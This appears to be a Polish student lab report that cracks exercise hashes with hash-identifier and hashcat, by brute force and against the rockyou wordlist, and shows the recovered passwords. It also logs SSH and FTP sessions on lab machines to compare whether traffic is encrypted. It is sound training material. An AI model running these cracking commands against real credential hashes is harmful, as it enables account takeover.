





# SDA - Projekt 2

---

Rozwiązanie zadań postawionych przed grupą w ramach projektu numer 2.

---

## Zadanie 1

### 1/3 - Łamanie haseł metodą brute-force

Dla podanych niżej hashy określić typ wykorzystanego algorytmu hashującego, a następnie złamanie hasła metodą brute-force.

1. 81dc9bdb52d04dc20036dbd8313ed055

2. d8826bbd80b4233b7522d1c538aeaf66c64e259a

3. b021d0862bc76b0995927902ec697d97b5080341a53cd90b780f50fd5886f4160bbb9d4a573b76c23004c9b3a44ac95cfde45399e3357d1f651b556dfbd0d58f

4. 31bca02094eb78126a517b206a88c73cfa9ec6f704c7030d18212cace820f025f00bf0ea68dbf3f3a5436ca63b53bf7bf80ad8d5de7d8359d0b7fed9dbc3ab99

#### Rozwiązanie:

Określenie typu wykorzystanego algorytmu za pomocą programu hash-identifier

```console
┌──(kali㉿kali)-[~]
└─$ hash-identifier 81dc9bdb52d04dc20036dbd8313ed055
   #########################################################################
   #     __  __                     __           ______    _____           #
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
   #                                                             By Zion3R #
   #                                                    www.Blackploit.com #
   #                                                   Root@Blackploit.com #
   #########################################################################
--------------------------------------------------

Possible Hashs:
[+] MD5
[+] Domain Cached Credentials - MD4(MD4(($pass)).(strtolower($username)))
...
--------------------------------------------------

┌──(kali㉿kali)-[~]
└─$ hashcat -m0 -a3 81dc9bdb52d04dc20036dbd8313ed055 --show
81dc9bdb52d04dc20036dbd8313ed055:1234

```

```console
┌──(kali㉿kali)-[~]
└─$ hash-identifier d8826bbd80b4233b7522d1c538aeaf66c64e259a                                
   #########################################################################
   #     __  __                     __           ______    _____           #
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
   #                                                             By Zion3R #
   #                                                    www.Blackploit.com #
   #                                                   Root@Blackploit.com #
   #########################################################################
--------------------------------------------------

Possible Hashs:
[+] SHA-1
[+] MySQL5 - SHA-1(SHA-1($pass))
...
--------------------------------------------------


┌──(kali㉿kali)-[~]
└─$ hashcat -m100 -a3 d8826bbd80b4233b7522d1c538aeaf66c64e259a --show
d8826bbd80b4233b7522d1c538aeaf66c64e259a:4121
```

```console
┌──(kali㉿kali)-[~]
└─$ hash-identifier b021d0862bc76b0995927902ec697d97b5080341a53cd90b780f50fd5886f4160bbb9d4a573b76c23004c9b3a44ac95cfde45399e3357d1f651b556dfbd0d58f
   #########################################################################
   #     __  __                     __           ______    _____           #
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
   #                                                             By Zion3R #
   #                                                    www.Blackploit.com #
   #                                                   Root@Blackploit.com #
   #########################################################################
--------------------------------------------------

Possible Hashs:
[+] SHA-512
[+] Whirlpool

Least Possible Hashs:
[+] SHA-512(HMAC)
[+] Whirlpool(HMAC)
--------------------------------------------------

┌──(kali㉿kali)-[~]
└─$ hashcat -m1700 -a3 b021d0862bc76b0995927902ec697d97b5080341a53cd90b780f50fd5886f4160bbb9d4a573b76c23004c9b3a44ac95cfde45399e3357d1f651b556dfbd0d58f --show
b021d0862bc76b0995927902ec697d97b5080341a53cd90b780f50fd5886f4160bbb9d4a573b76c23004c9b3a44ac95cfde45399e3357d1f651b556dfbd0d58f:6969

```

```console
┌──(kali㉿kali)-[~]
└─$ hash-identifier 31bca02094eb78126a517b206a88c73cfa9ec6f704c7030d18212cace820f025f00bf0ea68dbf3f3a5436ca63b53bf7bf80ad8d5de7d8359d0b7fed9dbc3ab99
   #########################################################################
   #     __  __                     __           ______    _____           #
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
   #                                                             By Zion3R #
   #                                                    www.Blackploit.com #
   #                                                   Root@Blackploit.com #
   #########################################################################
--------------------------------------------------

Possible Hashs:
[+] SHA-512
[+] Whirlpool

Least Possible Hashs:
[+] SHA-512(HMAC)
[+] Whirlpool(HMAC)
--------------------------------------------------


┌──(kali㉿kali)-[~]
└─$ hashcat -m1700 -a3 31bca02094eb78126a517b206a88c73cfa9ec6f704c7030d18212cace820f025f00bf0ea68dbf3f3a5436ca63b53bf7bf80ad8d5de7d8359d0b7fed9dbc3ab99 --show
31bca02094eb78126a517b206a88c73cfa9ec6f704c7030d18212cace820f025f00bf0ea68dbf3f3a5436ca63b53bf7bf80ad8d5de7d8359d0b7fed9dbc3ab99:0
```

### 2/3 - Łamanie haseł metodą brute-force

Dla podanych niżej hashy określić typ wykorzystanego algorytmu hashującego, a następnie złamanie hasła metodą brute-force.

1. 9e66d646cfb6c84d06a42ee1975ffaae90352bd016da18f51721e2042d9067dcb120accc574105b43139b6c9c887dda8202eff20cc4b98bad7b3be1e471b3aa5

2. 8a04bd2d079ee38f1af784317c4e2442625518780ccff3213feb2e207d2be42ca0760fd8476184a004b71bcb5841db5cd0a546b9b8870f1cafee57991077c4a9

#### Rozwiązanie:

Określenie typu wykorzystanego algorytmu za pomocą programu hash-identifier

```console
┌──(kali㉿kali)-[~]
└─$ hash-identifier 9e66d646cfb6c84d06a42ee1975ffaae90352bd016da18f51721e2042d9067dcb120accc574105b43139b6c9c887dda8202eff20cc4b98bad7b3be1e471b3aa5
   #########################################################################
   #     __  __                     __           ______    _____           #
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
   #                                                             By Zion3R #
   #                                                    www.Blackploit.com #
   #                                                   Root@Blackploit.com #
   #########################################################################
--------------------------------------------------

Possible Hashs:
[+] SHA-512
[+] Whirlpool

Least Possible Hashs:
[+] SHA-512(HMAC)
[+] Whirlpool(HMAC)
--------------------------------------------------


┌──(kali㉿kali)-[~]
└─$ hashcat -m1700 -a3 9e66d646cfb6c84d06a42ee1975ffaae90352bd016da18f51721e2042d9067dcb120accc574105b43139b6c9c887dda8202eff20cc4b98bad7b3be1e471b3aa5 --show
9e66d646cfb6c84d06a42ee1975ffaae90352bd016da18f51721e2042d9067dcb120accc574105b43139b6c9c887dda8202eff20cc4b98bad7b3be1e471b3aa5:sda

```

```console
┌──(kali㉿kali)-[~]
└─$ hash-identifier 8a04bd2d079ee38f1af784317c4e2442625518780ccff3213feb2e207d2be42ca0760fd8476184a004b71bcb5841db5cd0a546b9b8870f1cafee57991077c4a9
   #########################################################################
   #     __  __                     __           ______    _____           #
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
   #                                                             By Zion3R #
   #                                                    www.Blackploit.com #
   #                                                   Root@Blackploit.com #
   #########################################################################
--------------------------------------------------

Possible Hashs:
[+] SHA-512
[+] Whirlpool

Least Possible Hashs:
[+] SHA-512(HMAC)
[+] Whirlpool(HMAC)
--------------------------------------------------


┌──(kali㉿kali)-[~]
└─$ hashcat -m1700 -a3 8a04bd2d079ee38f1af784317c4e2442625518780ccff3213feb2e207d2be42ca0760fd8476184a004b71bcb5841db5cd0a546b9b8870f1cafee57991077c4a9 --show
8a04bd2d079ee38f1af784317c4e2442625518780ccff3213feb2e207d2be42ca0760fd8476184a004b71bcb5841db5cd0a546b9b8870f1cafee57991077c4a9:Asia

```

### 3/3 - Łamanie haseł metodą brute-force

Dla podanego niżej hasha określić typ wykorzystanego algorytmu hashującego, a następnie złamanie hasła metodą brute-force.

****wskazówka:**** Hasło składa się z dokładnie 6 znaków alfanumerycznych (**ta wskazówka jest błędna, ponieważ w haśle wykorzystano również znaki specjalne !!!**)

1. 44d9886c0a57ddbfdb31aa936bd498bf2ab70f741ee47047851e768db953fc4e43f92be953e205a3d1b3ab752ed90379444b651b582b0bc209a739a624e109da

#### Rozwiązanie:

Określenie typu wykorzystanego algorytmu za pomocą programu hash-identifier

```console
┌──(kali㉿kali)-[~]
└─$ hash-identifier 44d9886c0a57ddbfdb31aa936bd498bf2ab70f741ee47047851e768db953fc4e43f92be953e205a3d1b3ab752ed90379444b651b582b0bc209a739a624e109da
   #########################################################################
   #     __  __                     __           ______    _____           #
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
   #                                                             By Zion3R #
   #                                                    www.Blackploit.com #
   #                                                   Root@Blackploit.com #
   #########################################################################
--------------------------------------------------

Possible Hashs:
[+] SHA-512
[+] Whirlpool

Least Possible Hashs:
[+] SHA-512(HMAC)
[+] Whirlpool(HMAC)
--------------------------------------------------

┌──(kali㉿kali)-[~]
└─$ hashcat -m1700 -a3 44d9886c0a57ddbfdb31aa936bd498bf2ab70f741ee47047851e768db953fc4e43f92be953e205a3d1b3ab752ed90379444b651b582b0bc209a739a624e109da -1?a ?1?1?1?1?1?1 -O --show
44d9886c0a57ddbfdb31aa936bd498bf2ab70f741ee47047851e768db953fc4e43f92be953e205a3d1b3ab752ed90379444b651b582b0bc209a739a624e109da:T0^^3k
```

---

## Zadanie 2

### 1/2 - Łamanie haseł metodą słownikową

Dla podanych niżej hashy określić typ wykorzystanego algorytmu hashującego, a następnie złamanie hasła metodą słownikową.

1. 9fd8301ac24fb88e65d9d7cd1dd1b1ec

2. 7f9a6871b86f40c330132c4fc42cda59

3. 6104df369888589d6dbea304b59a32d4

4. 276f8db0b86edaa7fc805516c852c889

5. 04dac8afe0ca501587bad66f6b5ce5ad

#### Rozwiązanie:

Określenie typu wykorzystanego algorytmu za pomocą programu hash-identifier

```console
┌──(kali㉿kali)-[~]
└─$ hash-identifier 9fd8301ac24fb88e65d9d7cd1dd1b1ec
   #########################################################################
   #     __  __                     __           ______    _____           #
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
   #                                                             By Zion3R #
   #                                                    www.Blackploit.com #
   #                                                   Root@Blackploit.com #
   #########################################################################
--------------------------------------------------

Possible Hashs:
[+] MD5
[+] Domain Cached Credentials - MD4(MD4(($pass)).(strtolower($username)))
--------------------------------------------------


┌──(kali㉿kali)-[~]
└─$ hashcat -m0 2_1_2_hashes.txt /usr/share/seclists/Passwords/Leaked-Databases/rockyou-50.txt --show
9fd8301ac24fb88e65d9d7cd1dd1b1ec:butterfly
7f9a6871b86f40c330132c4fc42cda59:tinkerbell
6104df369888589d6dbea304b59a32d4:blink182
276f8db0b86edaa7fc805516c852c889:baseball
04dac8afe0ca501587bad66f6b5ce5ad:hellokitty

```

### 2/2 - Łamanie haseł metodą słownikową

Dla podanych niżej hashy określić typ wykorzystanego algorytmu hashującego, a następnie złamanie hasła metodą słownikową.

1. 7ab6888935567386376037e042524d27fc8a24ef87b1944449f6a0179991dbdbc481e98db4e70f6df0e04d1a69d8e7101d881379cf1966c992100389da7f3e9a

2. 470c62e301c771f12d91a242efbd41c5e467cba7419c664f784dbc8a20820abaf6ed43e09b0cda994824f14425db3e6d525a7aafa5d093a6a5f6bf7e3ec25dfa

#### Rozwiązanie:

Określenie typu wykorzystanego algorytmu za pomocą programu hash-identifier

```console
┌──(kali㉿kali)-[~]
└─$ hash-identifier 7ab6888935567386376037e042524d27fc8a24ef87b1944449f6a0179991dbdbc481e98db4e70f6df0e04d1a69d8e7101d881379cf1966c992100389da7f3e9a
   #########################################################################
   #     __  __                     __           ______    _____           #
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
   #                                                             By Zion3R #
   #                                                    www.Blackploit.com #
   #                                                   Root@Blackploit.com #
   #########################################################################
--------------------------------------------------

Possible Hashs:
[+] SHA-512
[+] Whirlpool

Least Possible Hashs:
[+] SHA-512(HMAC)
[+] Whirlpool(HMAC)
--------------------------------------------------


┌──(kali㉿kali)-[~]
└─$ hashcat -m1700 2_2_2_hashes.txt /usr/share/seclists/Passwords/Leaked-Databases/rockyou-50.txt --show 
7ab6888935567386376037e042524d27fc8a24ef87b1944449f6a0179991dbdbc481e98db4e70f6df0e04d1a69d8e7101d881379cf1966c992100389da7f3e9a:spiderman
470c62e301c771f12d91a242efbd41c5e467cba7419c664f784dbc8a20820abaf6ed43e09b0cda994824f14425db3e6d525a7aafa5d093a6a5f6bf7e3ec25dfa:rockstar

```

## Zadanie 3

### Analiza ruchu HTTP


## Zadanie 4

### Analiza ruchu SSH
Nawiązanie połaczenia pomiędzy Kali a SDA za pośrednictwem SSH
```console
┌──(kali㉿kali)-[~]
└─$ ssh uranus@192.168.100.136
uranus@192.168.100.136's password: 
Welcome to Ubuntu 22.04 LTS (GNU/Linux 5.15.0-27-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat Nov  5 08:14:33 PM UTC 2022

  System load:  0.00244140625     Processes:               117
  Usage of /:   32.2% of 9.75GB   Users logged in:         0
  Memory usage: 3%                IPv4 address for enp0s3: 192.168.100.136
  Swap usage:   0%

 * Strictly confined Kubernetes makes edge and IoT secure. Learn how MicroK8s
   just raised the bar for easy, resilient and secure K8s cluster deployment.

   https://ubuntu.com/engage/secure-kubernetes-at-the-edge

150 updates can be applied immediately.
96 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


Last login: Sat Nov  5 20:14:34 2022 from 192.168.100.126
```
Tworzenie plików z tajnymi hasłami
```console
uranus@vm-sda:~$ touch sekret1.txt
uranus@vm-sda:~$ touch sekret2.txt
uranus@vm-sda:~$ echo "Sup3erM3GaTajn3Haslo!" > sekret1.txt 
uranus@vm-sda:~$ echo "strasznielatwehaslo" > sekret2.txt 
```

Konfiguracja vsftpd umożliwiająca wgrywanie plików za pośrednictwem FTP


Analiza ruchu sieciowego w poszukiwaniu zawartości plików sekret1.txt oraz sekret2.txt:

**Cały ruch za pośrednictwem protokołu SSH jest szyfrowany, dlatego nie ma możliwości podejrzenia jego zawartości!**


## Zadanie 5

### Analiza ruchu FTP

Nawiązanie połączenia z maszyną SDA za pośrednictwem FTP, upload pliku z maszyny **kali** do maszyny **SDA**, download plików sekret1.txt oraz sekret2.txt z maszyny **SDA** do maszyny **kali**.

```console
┌──(kali㉿kali)-[~]
└─$ ftp uranus@192.168.100.136
Connected to 192.168.100.136.
220 (vsFTPd 3.0.5)
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> pwd
Remote directory: /tmp
ftp> cd /home/uranus
250 Directory successfully changed.
ftp> pwd
Remote directory: /home/uranus
ftp> ls
229 Entering Extended Passive Mode (|||24591|)
150 Here comes the directory listing.
-rw-rw-r--    1 1000     1000           22 Nov 05 20:15 sekret1.txt
-rw-rw-r--    1 1000     1000           20 Nov 05 20:16 sekret2.txt
-rw-rw-r--    1 1000     1000           13 May 10 07:12 user.txt
226 Directory send OK.
ftp> put /home/kali/upload.txt upload.txt
local: /home/kali/upload.txt remote: upload.txt
229 Entering Extended Passive Mode (|||34306|)
150 Ok to send data.
100% |**********************************************************************|    87      786.67 KiB/s    00:00 ETA
226 Transfer complete.
87 bytes sent in 00:00 (79.62 KiB/s)
ftp> get sekret1.txt
local: sekret1.txt remote: sekret1.txt
229 Entering Extended Passive Mode (|||42142|)
150 Opening BINARY mode data connection for sekret1.txt (22 bytes).
100% |**********************************************************************|    22      113.07 KiB/s    00:00 ETA
226 Transfer complete.
